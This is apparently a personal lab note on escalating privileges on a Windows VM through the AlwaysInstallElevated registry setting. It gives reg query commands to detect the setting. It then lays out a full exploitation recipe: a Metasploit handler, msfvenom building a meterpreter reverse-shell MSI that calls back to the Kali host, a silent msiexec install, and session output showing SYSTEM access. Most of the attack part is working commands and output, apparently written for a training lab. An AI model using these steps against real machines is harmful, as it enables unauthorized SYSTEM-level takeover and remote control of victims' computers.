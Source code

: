 ### Detection

#### Windows VM

1.Open command prompt and type: `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
2.From the output, notice that “AlwaysInstallElevated” value is 1.
3.In command prompt type: `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
4.From the output, notice that “AlwaysInstallElevated” value is 1.

![[Pasted image 20230606104413.png]]

### Exploitation

#### Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`
7. Copy the generated file, setup.msi, to the Windows VM.

Windows VM

1.Place ‘setup.msi’ in ‘C:\Temp’.
2.Open command prompt and type: `msiexec /quiet /qn /i C:\Temp\setup.msi`

Enjoy your shell! :)

```
[*] Started reverse TCP handler on 10.4.8.170:4444 
[*] Sending stage (175686 bytes) to 10.10.236.42
[*] Meterpreter session 2 opened (10.4.8.170:4444 -> 10.10.236.42:49286) at 2023-06-05 20:47:11 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

